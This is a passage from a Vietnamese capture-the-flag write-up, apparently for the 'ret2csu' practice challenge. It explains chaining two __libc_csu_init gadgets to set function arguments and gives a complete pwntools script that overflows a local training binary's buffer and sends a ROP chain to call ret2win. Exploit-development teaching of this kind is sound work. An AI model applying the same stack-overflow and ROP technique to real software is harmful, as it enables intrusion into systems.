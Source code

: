 Ở payload 2 ta sẽ thêm vào rsp một đoạn padding bất kỳ do trước kế tiếp payload1 sẽ là `add rsp, 8`, tại payload 2 ta gọi hàm trong r12 ở đây là `__init__` (chỉ để giữ nguyên rsi, rdi, rdx). Kế tiếp ta truyền giá trị cho rdi do Gadget 2 trước đó chỉ control được edi. 

```text-x-python
payload2 = p64(libc_csu_int + 0x40) # Gadget 2
payload2 += b'B'*8
payload2 += p64(0x0) # rbx
payload2 += p64(0x0) # rbp
payload2 += p64(0x0) # r12
payload2 += p64(0x0) # r13
payload2 += p64(0x0) # r14
payload2 += p64(0x0) # r15
payload2 += p64(0x4006a3) # 0x00000000004006a3: pop rdi; ret;
payload2 += p64(0xdeadbeefdeadbeef) # -> rdi
payload2 += p64(ret2win)
```

Kết hợp 2 payload

```text-x-python
from pwn import *

libc_csu_int = 0x400640 # 55  0x00000640 0x00400640 GLOBAL FUNC   101      __libc_csu_init
init = 0x400398 # 0x400398 point to 0x4004d0 # 8   0x000004d0 0x004004d0 GLOBAL FUNC   0        _init
ret2win_GOT = 0x601020 # 0x00400510 ff250a0b2000   jmp qword [reloc.ret2win]   ; [0x601020:8]=0x400516
ret2win = 0x400510 #2   0x00000510 0x00400510 GLOBAL FUNC   16       imp.ret2win


context.update(arch='amd64', os='linux')

p = process('./ret2csu')
# gdb.attach(p,'''
# break *pwnme
# ''')

payload1 = b'A'*40
payload1 += p64(libc_csu_int + 0x5a) # Gadget 1
payload1 += p64(0x0) # rbx
payload1 += p64(0x1) # rbp -> add rbx, 0x1;cmp rbp, rbx; jne __libc_csu_init -> rbx==rbp
payload1 += p64(init) # r12 -> call qword [r12 + rbx*8]
payload1 += p64(0xdeadbeefdeadbeef) # r13 -> edi
payload1 += p64(0xcafebabecafebabe) # r14 -> rsi
payload1 += p64(0xd00df00dd00df00d) # r15 -> rdx

payload2 = p64(libc_csu_int + 0x40) # Gadget 2
payload2 += b'B'*8
payload2 += p64(0x0) # rbx
payload2 += p64(0x0) # rbp
payload2 += p64(0x0) # r12
payload2 += p64(0x0) # r13
payload2 += p64(0x0) # r14
payload2 += p64(0x0) # r15
payload2 += p64(0x4006a3) # 0x00000000004006a3: pop rdi; ret;
payload2 += p64(0xdeadbeefdeadbeef) # -> rdi
payload2 += p64(ret2win)

line1 = p.recvuntil(b'>')
print(line1)

p.sendline(payload1 + payload2)
line2 = p.recvall()
print(line2)
```